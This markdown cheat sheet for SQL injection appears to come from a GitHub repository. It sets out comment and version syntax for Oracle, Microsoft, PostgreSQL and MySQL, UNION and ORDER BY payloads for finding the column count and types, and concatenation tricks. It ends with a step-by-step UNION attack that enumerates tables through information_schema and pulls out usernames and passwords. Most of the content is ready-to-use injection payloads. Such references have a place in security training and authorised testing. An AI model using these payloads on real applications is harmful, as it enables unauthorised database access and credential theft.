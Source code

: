 # SQL cheet sheat

This SQLi cheat sheet contains examples of useful syntax that you can use to perform a variety tasks that often arise when SQL injection attacks.

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input

<pre>
<b>Oracle</b>:
		--comment
<b>Microsoft</b>:
		--comment
		/*comment*/
<b>PostgreSQL</b>:
		--comment
		/*comment*/
<b>MySQL</b>:
		#comment
		-- comment (note that the space needs to follow the double dashb)
		/*comment*/
</pre>

***Example***:
```SQL
	SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
	SELECT * FROM products WHERE category = 'football' OR 1=1--' AND released = 1
	SELECT * FROM products WHERE category = 'football'--' AND released = 1
	UNION SELECT username, password FROM users-- 
```

## Database version

<pre>
<b>Oracle</b>:
		SELECT banner FROM v$version
		SELECT version FROM v$instance
<b>Microsoft</b>:
		SELECT @@version
<b>PostgreSQL</b>
		SELECT version()
<b>MySQL</b>:
		SELECT @@version
</pre>

## Number of columns and type of each columns:

If the number of nulls does not match the number of columns, the databas return an error.
```SQL
	UNION SELECT NULL-- (FROM DUAL-- should follow NULL for the injected queries on Oracle )
	UNION SELECT NULL,NULL--
	UNION SELECT NULL,NULL,NULL--
```
OR

This method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs
```SQL
	ORDER BY 1--
	ORDER BY 2--
	ORDER BY 3--
```

After getting the number of comlumns. We can replace`NULL` by `string` or `int` value (i.e: 'abc', 123) to detect the type of data in each column:
```SQL
	UNION SELECT 'abc',NULL,NULL,NULL--
	UNION SELECT NULL,'abc',NULL,NULL--
	UNION SELECT NULL,NULL,123,NULL--
```

## String concatenation

<pre>
<b>Oracle</b>:
		'foo'||'bar'
<b>Microsoft</b>:
		'foo'+'bar'
<b>PostgreSQL</b>:
		'foo'||'bar'
<b>MySQL</b>:
		'foo' 'bar' (the space needs to between the two strings)
		CONCAT('foo','bar')
</pre>

For example:
```SQL
UNION SELECT username || '~' || password FROM users--
```
==> results:
```
...
administrator~password1
user2~password2
user3~password3
...  
```

## Substring

Each of the following expressions will return the string `ba` (Note that the offset index is *1-based*).

<pre>
<b>Oracle</b>:
	SUBSTR('foobar', 4, 2)
<b>Microsoft</b>, <b>PostgreSQL</b>, <b>MySQL</b>:
	SUBSTRING('foobar', 4, 2)
</pre>

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

**Oracle**:
```SQL
	SELECT * FROM all_tables
	SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**Microsoft**, **PostgreSQL**, **MySQL**:
```SQL
	SELECT * FROM information_schema.tables
	SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
Example of SQL injection attack, listing the database content on non-Oracle databases:

```SQL
-- 1. Verify that the qurey is returning two columns, both of which contain text:
UNION SELECT 'abc','def'--
-- 2. Retrieve the list of tables in the database (table_name is found by searching information_chema.table)
UNION SELECT table_name, NULL FROM information_schema.tables--
-- 3. Find the name of the table containing user credentials ==> user_xxx
-- 4. Retrieve the details of the columns in the table
UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='user_xxx'--
-- 5. Find the names of the columns containing usernames and passwords (i.e: username_xxx, password_xxx)
-- 6. Retrieve the usernames and passwords for all
UNION SELECT username_xxx,+password_xxx FROM user_xxx--

```
